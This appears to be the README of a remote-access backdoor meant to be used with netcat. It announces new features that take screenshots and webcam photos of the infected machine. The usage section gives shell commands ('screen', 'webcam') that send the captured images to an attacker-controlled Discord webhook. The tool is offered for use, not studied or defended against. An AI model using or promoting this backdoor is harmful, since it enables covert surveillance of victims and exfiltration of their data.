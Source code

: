 THIS BACKDOOR WAS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
```SHELL
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```
For Webcam:
```SHELL
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```

**NOTE:- This is made for --> NCAT/NETCAT**
